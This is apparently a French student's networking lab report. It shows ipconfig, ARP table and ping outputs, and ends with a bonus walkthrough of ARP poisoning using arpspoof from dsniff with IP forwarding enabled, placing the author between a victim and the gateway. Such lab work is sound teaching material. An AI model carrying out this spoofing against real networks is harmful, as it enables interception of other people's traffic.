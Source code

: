 # TP RESEAU 3

# I. ARP basics

☀️ **Avant de continuer...**

`````
PS C:\Users\dylan> ipconfig /all
Carte réseau sans fil Wi-Fi :

   Suffixe DNS propre à la connexion. . . :
   Description. . . . . . . . . . . . . . : Killer(R) Wi-Fi 6E AX1690i 160MHz Wireless Network Adapter (411NGW)
   ☀️Adresse physique . . . . . . . . . . . : D4-D8-53-78-45-B0
   DHCP activé. . . . . . . . . . . . . . : Non
   Configuration automatique activée. . . : Oui
   Adresse IPv6 de liaison locale. . . . .: fe80::ef26:7c2d:9d91:7d2b%18(préféré)
   Adresse IPv4. . . . . . . . . . . . . .: 10.33.79.14(préféré)
   Masque de sous-réseau. . . . . . . . . : 255.255.240.0
   Passerelle par défaut. . . . . . . . . : 10.33.79.254
   IAID DHCPv6 . . . . . . . . . . . : 433379411
   DUID de client DHCPv6. . . . . . . . : 00-01-00-01-2C-F9-2E-BE-98-BB-1E-1F-74-5B
   Serveurs DNS. . .  . . . . . . . . . . : 8.8.8.8
   NetBIOS sur Tcpip. . . . . . . . . . . : Activé
``````
☀️ **Affichez votre table ARP**

``````
PS C:\Users\dylan> arp -a

Interface : 10.33.79.14 --- 0x12
  Adresse Internet      Adresse physique      Type
  10.33.79.254          7c-5a-1c-d3-d8-76     dynamique
  10.33.79.255          ff-ff-ff-ff-ff-ff     statique
  224.0.0.22            01-00-5e-00-00-16     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique
``````

☀️ **Déterminez l'adresse MAC de la passerelle du réseau de l'école**

``````
PS C:\Users\dylan> arp -a

Interface : 10.33.79.14 --- 0x12
  Adresse Internet      Adresse physique      Type
  10.33.79.254          ☀️7c-5a-1c-d3-d8-76     dynamique
``````

☀️ **Supprimez la ligne qui concerne la passerelle**

`````
PS C:\Users\dylan\Desktop\netcat-1.11> arp -d 10.33.79.254
  ``````

  ☀️ **Prouvez que vous avez supprimé la ligne dans la table ARP**

  ``````
  PS C:\Users\dylan\Desktop\netcat-1.11> arp -d 10.33.79.254
PS C:\Users\dylan\Desktop\netcat-1.11> arp -a

Interface : 10.33.79.14 --- 0x12
  Adresse Internet      Adresse physique      Type
  10.33.79.255          ff-ff-ff-ff-ff-ff     statique
  224.0.0.22            01-00-5e-00-00-16     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique
``````

# II. ARP dans un réseau local

# 1. Basics

☀️ **Déterminer**
``````
PS C:\Users\dylan> ipconfig /all
Carte réseau sans fil Wi-Fi :

   Suffixe DNS propre à la connexion. . . :
   Description. . . . . . . . . . . . . . : Killer(R) Wi-Fi 6E AX1690i 160MHz Wireless Network Adapter (411NGW)
   ☀️Adresse physique . . . . . . . . . . . : D4-D8-53-78-45-B0
   DHCP activé. . . . . . . . . . . . . . : Oui
   Configuration automatique activée. . . : Oui
   Adresse IPv6. . . . . . . . . . . . . .: 2a01:cb01:307d:c647:cc6e:f719:d007:baa7(préféré)
   Adresse IPv6 temporaire . . . . . . . .: 2a01:cb01:307d:c647:848b:7cf8:9cab:c0ce(préféré)
   Adresse IPv6 de liaison locale. . . . .: fe80::ef26:7c2d:9d91:7d2b%18(préféré)
   ☀️Adresse IPv4. . . . . . . . . . . . . .: 172.20.10.2(préféré)
   Masque de sous-réseau. . . . . . . . . : 255.255.255.240
   Bail obtenu. . . . . . . . . . . . . . : mardi 8 octobre 2024 16:13:00
   Bail expirant. . . . . . . . . . . . . : mercredi 9 octobre 2024 16:13:00
   Passerelle par défaut. . . . . . . . . : fe80::2037:a5ff:fe88:6764%18
                                       172.20.10.1
   Serveur DHCP . . . . . . . . . . . . . : 172.20.10.1
   IAID DHCPv6 . . . . . . . . . . . : 433379411
   DUID de client DHCPv6. . . . . . . . : 00-01-00-01-2C-F9-2E-BE-98-BB-1E-1F-74-5B
   Serveurs DNS. . .  . . . . . . . . . . : fe80::2037:a5ff:fe88:6764%18
                                       172.20.10.1
   NetBIOS sur Tcpip. . . . . . . . . . . : Activé
``````

☀️ **DIY**
``````
PS C:\Users\dylan> ipconfig
Carte réseau sans fil Wi-Fi :

   Suffixe DNS propre à la connexion. . . :
   Adresse IPv6 de liaison locale. . . . .: fe80::ef26:7c2d:9d91:7d2b%18
   Adresse IPv4. . . . . . . . . . . . . .: 172.20.10.7
   Masque de sous-réseau. . . . . . . . . : 255.255.255.240
   Passerelle par défaut. . . . . . . . . :
``````

☀️ **Pingz !**

``````
PS C:\Users\dylan> ping 172.20.10.2

Envoi d’une requête 'Ping'  172.20.10.2 avec 32 octets de données :
Réponse de 172.20.10.2 : octets=32 temps=6 ms TTL=128
Réponse de 172.20.10.2 : octets=32 temps=44 ms TTL=128
Réponse de 172.20.10.2 : octets=32 temps=6 ms TTL=128
Réponse de 172.20.10.2 : octets=32 temps=25 ms TTL=128

Statistiques Ping pour 172.20.10.2:
    Paquets : envoyés = 4, reçus = 4, perdus = 0 (perte 0%),
Durée approximative des boucles en millisecondes :
    Minimum = 6ms, Maximum = 44ms, Moyenne = 20ms
``````

``````
PS C:\Users\dylan> ping xkcd.com

Envoi d’une requête 'ping' sur xkcd.com [151.101.0.67] avec 32 octets de données :
Réponse de 151.101.0.67 : octets=32 temps=73 ms TTL=52
Réponse de 151.101.0.67 : octets=32 temps=80 ms TTL=52
Réponse de 151.101.0.67 : octets=32 temps=37 ms TTL=52
Réponse de 151.101.0.67 : octets=32 temps=126 ms TTL=52

Statistiques Ping pour 151.101.0.67:
    Paquets : envoyés = 4, reçus = 4, perdus = 0 (perte 0%),
Durée approximative des boucles en millisecondes :
    Minimum = 37ms, Maximum = 126ms, Moyenne = 79ms
``````
# 2. ARP

☀️ **Affichez votre table ARP !**

`````
PS C:\Users\dylan\Desktop\netcat-1.11> arp -a

Interface : 172.20.10.4 --- 0x12
  Adresse Internet      Adresse physique      Type
  172.20.10.1           22-37-a5-88-67-64     dynamique
  172.20.10.2           ☀️4c-82-a9-1c-e3-b7     dynamique
  172.20.10.3           ☀️f4-6a-dd-2c-70-19     dynamique
``````
**videz tous vos tables ARP**
`````

PS C:\Users\dylan\Desktop\netcat-1.11> arp -d

Interface : 172.20.10.4 --- 0x12
  Adresse Internet      Adresse physique      Type
  172.20.10.1           22-37-a5-88-67-64     dynamique
  224.0.0.22            01-00-5e-00-00-16     statique
  ``````

  # 3. Bonus : ARP poisoning
  
  Je vais afficher la table arp de la victime 
  `````
  PS C:\Users\dylan> arp -a
  Interface : 192.168.1.10 --- 0x12
  Adresse Internet      Adresse physique      Type
  192.168.1.1           10-e9-92-7f-25-10     dynamique
  192.168.1.16          a4-83-e7-af-ae-d6     dynamique
  192.168.1.17          30-e2-83-ae-7b-f6     dynamique
  192.168.1.21          8a-91-fd-86-03-87     dynamique
  192.168.1.27          d4-d8-53-78-45-b2     dynamique
  192.168.1.255         ff-ff-ff-ff-ff-ff     statique
  224.0.0.2             01-00-5e-00-00-02     statique
  224.0.0.22            01-00-5e-00-00-16     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique
  ``````

  Ensuite je vais empoisonner sa table arp pour que l'adresse mac du routeur soit la mienne grace à arpspoof qui se situe dans l'outil dSniff qui est un outil qui analyse le réseau
  `````
  sudo apt install dsniff
  ``````

  Je vais activer (sur la machine attaquant) l'IP forwarding qui va permettre une connexion entre la passerelle et la victime 
  ```````
  echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
  ````````

Puis je vais empoisonner la table arp de la victimeA pour faire croire que je suis la passerelle (Victime B)
````
sudo arpspoof -t l'ip-de-ma-victimeA l'ip-de-la-victimeB
````
Je fais pareil mais ici je vais spam la victime B pour faire croire que je suis la victime A

````
sudo arpspoof -t l'ip-de-ma-victimeB l'ip-de-la-victimeA
````

Si on verifie la table arp de la victimeA on peut voir que l'addresse mac de la passerelle (victimeB) est la mienne :

`````
PS C:\Users\dylan> arp -a
Interface : 192.168.1.10 --- 0x12
  Adresse Internet      Adresse physique      Type
  192.168.1.1           ☀️d4-d8-53-78-45-b2     dynamique
  192.168.1.16          a4-83-e7-af-ae-d6     dynamique
  192.168.1.21          8a-91-fd-86-03-87     dynamique
  192.168.1.27          d4-d8-53-78-45-b2     dynamique
  192.168.1.255         ff-ff-ff-ff-ff-ff     statique
  224.0.0.2             01-00-5e-00-00-02     statique
  224.0.0.22            01-00-5e-00-00-16     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
``````
  Donc tout les paquets vont passer par moi puiq que je vais redistribuer a la passerelle (victimeB)